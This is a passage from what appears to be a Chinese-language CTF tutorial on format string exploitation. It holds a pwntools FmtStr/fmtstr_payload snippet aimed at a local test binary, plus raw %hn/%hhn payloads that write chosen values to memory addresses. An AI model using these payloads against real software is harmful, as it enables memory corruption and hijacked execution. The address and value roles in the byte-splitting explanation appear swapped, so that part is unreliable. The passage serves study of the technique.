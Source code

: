 ```python
def exec_fmt(payload):
    p = process('test5')
    p.recv()
    p.sendline(payload)
    return p.recv()

autofmt = FmtStr(exec_fmt)
offset = autofmt.offset

fmtstr_payload(6, {0x08048000:0x10203040})
```

![](./images/1626765772076-9.png)

```shell
%16c%17$hhn%16c%18$hhn%16c%19$hhn%16c%20$hhn\x03\x80\x04\x08\x02\x80\x04\x08\x01\x80\x04\x08\x00\x80\x04\x08
```

其他的计算方式，如需要向地址 0xbffffffa 写入内存 0x0804a028 ——首先把值拆分：
两个高位字节（HOB）： 0xbfff
两个低位字节（LOB）： 0xffff

然后通过魔术计算公式构造一个格式化字符串：

```
\x2a\xa0\x04\x08\x28\xa0\x04\x08%.49143x%4$hn%.16379x%5$hn
```

示例成功的将canary的内容改为0xbffffffa 。

构建示例所用的公式请对照下图（魔术公式表）：

![](images/ctf-2021-07-20-15-24-06.png)
